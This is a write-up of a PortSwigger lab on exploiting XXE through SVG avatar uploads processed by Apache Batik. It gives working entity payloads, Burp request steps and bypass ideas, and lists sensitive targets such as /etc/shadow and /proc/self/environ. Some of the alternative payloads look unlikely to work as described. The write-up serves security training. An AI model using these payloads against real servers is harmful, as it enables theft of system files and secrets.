

# PortSwigger Lab: Exploiting XXE via Image File Upload

## Overview

XXE (XML External Entity Injection) is a vulnerability that occurs when XML parsers process external entities defined in the DOCTYPE declaration. This lab demonstrates XXE exploitation through SVG image upload, where the Apache Batik library processes the SVG file and resolves external entities.

## Lab Details

| Attribute | Value |
|-----------|-------|
| **Lab** | Exploiting XXE via image file upload |
| **Difficulty** | Practitioner |
| **Category** | XXE (XML External Entity) |
| **Library** | Apache Batik |
| **Date** | July 19, 2026 |
| **Hostname Found** | `1c3462a1bd38` |

---

## Lab Objective

Upload an image that displays the contents of the `/etc/hostname` file after processing, then submit the value of the server hostname.

---

## Screenshots

### Creating the SVG Payload


*Figure 1: Creating the malicious SVG file with XXE payload using nano editor*

The payload used:
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
<!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
## Uploading the Avatar

*Figure 2: Selecting avatar.svg file for upload in the comment form*

## Burp Suite - Intercepting Upload Request

*Figure 3: Burp Suite intercepting the POST request with the SVG payload*

The request shows:
* `filename="avatar.svg"`
* `Content-Type: image/svg+xml`
* The XXE payload in the request body

## Successful Comment Submission

*Figure 4: "Thank you for your comment!" response confirming successful upload*

## Extracted Hostname in Avatar

*Figure 5: Hostname 1c3462a1bd38 displayed in the avatar image (visible in the comment section)*

The avatar shows:
```text
Henry | 19 July 2026
testing my payloads
[Avatar displaying: 1c3462a1bd38]
```

## Attack Methodology

### Reconnaissance Phase

| Step | Action | Details |
| :--- | :--- | :--- |
| 1 | Identify Upload Feature | Blog comment section allows avatar uploads |
| 2 | Determine File Types Accepted | SVG files accepted for avatar images |
| 3 | Identify XML Processing | Apache Batik library processes SVG files |

### Exploitation Phase

| Step | Action | Payload/Command |
| :--- | :--- | :--- |
| 1 | Create SVG Payload | `<!DOCTYPE svg [<!ENTITY xxe SYSTEM "file:///etc/hostname">]>` |
| 2 | Upload Malicious File | Select avatar.svg as avatar |
| 3 | Intercept with Burp | Capture POST request to /post/comment |
| 4 | Modify Request | Change filename to avatar.svg, Content-Type to image/svg+xml |
| 5 | View Result | Check avatar image for hostname |
| 6 | Submit Solution | Enter hostname 1c3462a1bd38 |

## Core Concepts

### SVG as XML Vector

| Concept | Description |
| :--- | :--- |
| **SVG Structure** | SVG (Scalable Vector Graphics) is an XML-based vector image format |
| **Parser** | Apache Batik is a Java-based SVG toolkit that processes SVG files |
| **Vulnerability** | Batik resolves external entities by default, enabling XXE attacks |

### XML Entity Types

| Type | Syntax | Description |
| :--- | :--- | :--- |
| **Internal Entity** | `<!ENTITY name "value">` | Defined and used within the same XML document |
| **External Entity** | `<!ENTITY name SYSTEM "URI">` | Reference external resources using URIs |
| **DOCTYPE Declaration** | `<!DOCTYPE root [<!ENTITY name SYSTEM "file:///path">]>` | Defines document type and entity declarations |

## Attack Payloads

### Basic Payload (Used in this Lab)

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
<!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

**Breakdown:**
* `<!DOCTYPE svg [` - Defines Document Type Definition
* `<!ENTITY xxe SYSTEM "file:///etc/hostname">` - External entity for /etc/hostname
* `&xxe;` - Entity reference that resolves to file contents
* `<text>` - SVG element rendering the content

### Enhanced Payload (Better Visibility)

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg width="200px" height="200px" xmlns="http://www.w3.org/2000/svg">
  <rect width="200" height="200" fill="white"/>
  <text font-size="24" x="10" y="50" fill="red" font-weight="bold">&xxe;</text>
</svg>
```

**Improvements:**
* White background for contrast
* Red text for visibility
* Larger font size (24px)
* Better text positioning

### Alternative Payloads

| Payload Type | Content |
| :--- | :--- |
| **Without XML Declaration** | `<!DOCTYPE svg [<!ENTITY xxe SYSTEM "file:///etc/hostname">]><svg width="200px" height="200px"><text font-size="24" x="10" y="50">&xxe;</text></svg>` |
| **Using xlink:href** | `<svg xmlns:xlink="http://www.w3.org/1999/xlink"><image xlink:href="file:///etc/hostname" width="200" height="200"/></svg>` |
| **Using ForeignObject** | `<svg><foreignObject><div xmlns="http://www.w3.org/1999/xhtml"><p>file:///etc/hostname</p></div></foreignObject></svg>` |


## File Disclosure Targets

| OS | Target Files |
| :--- | :--- |
| **Linux** | `/etc/hostname`, `/etc/passwd`, `/etc/shadow`, `/etc/hosts`, `/proc/self/environ`, `/var/www/html/config.php` |
| **Windows** | `C:\windows\win.ini`, `C:\windows\system32\drivers\etc\hosts`, `C:\inetpub\wwwroot\web.config` |

## Results

### Extracted Data

| File | Content |
| :--- | :--- |
| `/etc/hostname` | `1c3462a1bd38` |

### Comment Display
```text
Henry | 19 July 2026
testing my payloads
[Avatar displaying: 1c3462a1bd38]
```

### Lab Completion

| Attribute | Value |
| :--- | :--- |
| **Hostname submitted** | `1c3462a1bd38` |
| **Status** | ✅ Solved |

## Common Issues and Solutions

### Issue 1: Internal Server Error
* **Error Message:**
```text
Internal Server Error
SVG transcoder exited with an error: null
Enclosed Exception: The processing instruction target matching "[xX][mM][lL]" is not allowed.
```
* **Solutions:**
  * Try removing the `<?xml version="1.0" standalone="yes"?>` declaration
  * Use a different payload syntax
  * Use the `xlink:href` approach

### Issue 2: Hostname Not Visible
* **Problem:** The text is too small or positioned outside the viewable area.
* **Solutions:**
  * Increase font size to `24px` or higher
  * Add a white background rectangle
  * Position text at `x=10, y=50`
  * Use red or bold text for visibility
  * Right-click image → Open in new tab
  * Zoom in on the avatar

### Issue 3: Incorrect File Type
* **Problem:** The server doesn't process the SVG properly.
* **Solutions:**
  * Ensure `filename="avatar.svg"`
  * Set `Content-Type: image/svg+xml`
  * Verify the SVG XML is properly formatted

### Issue 4: Entity Reference Error
* **Problem:** The entity reference `&xxe;` appears as text instead of being resolved.
* **Solutions:**
  * Ensure the entity is properly defined in DOCTYPE
  * Check for typos in entity name
  * Verify the XML syntax is correct

## Defenses and Bypasses

### Common Defenses

| Defense | Description |
| :--- | :--- |
| **Disable External Entities** | Configure XML parser to not resolve external entities |
| **Input Validation** | Validate file types, content, and extensions |
| **Sanitize SVGs** | Use libraries like SVG Sanitizer |
| **Whitelist** | Only allow specific image formats (PNG, JPG, GIF) |

### Bypass Techniques

| Technique | Description |
| :--- | :--- |
| **Different Protocols** | Use `file://`, `http://`, `ftp://`, `php://` wrappers |
| **Parameter Entities** | Use `%` entities for internal DTD references |
| **Encoding** | Use CDATA sections, HTML encoding, base64 |
| **Alternative Parsers** | Exploit different XML parser behaviors |

## Tools and Resources

* **Burp Suite Repeater:** Test payloads and modify requests
* **Burp Suite Proxy:** Intercept and view HTTP traffic
* **Nano/VSCode:** Create SVG payload files
* **Browser DevTools:** Inspect and view avatar images
* **PayloadsAllTheThings:** XXE payload wordlist
* **HackTricks:** XML injection references

## Methodology Mindset

| Phase | Action Items |
| :--- | :--- |
| **1. Identify Entry Points** | Check file upload forms, comment sections, avatar uploads |
| **2. Analyze File Processing** | Determine which libraries process uploaded files |
| **3. Test SVG Upload** | Try uploading SVG files to see if accepted |
| **4. Create Payload** | Craft XXE payload to read system files |
| **5. Intercept Request** | Use Burp to modify filename and Content-Type |
| **6. View Output** | Check rendered image for extracted data |
| **7. Submit Solution** | Submit extracted data to complete lab |


## Key Takeaways

* **SVG = XML:** SVG files are processed as XML, making them vulnerable to XXE
* **Apache Batik Vulnerability:** The library resolves external entities by default
* **File Extension Matters:** Ensure `.svg` extension and proper `Content-Type`
* **Check the Corners:** Extracted data may appear tiny - zoom in!
* **Multiple Payloads:** Try different syntax if the first one fails
* **Entity References:** Make sure `&xxe;` is properly spelled in the text element

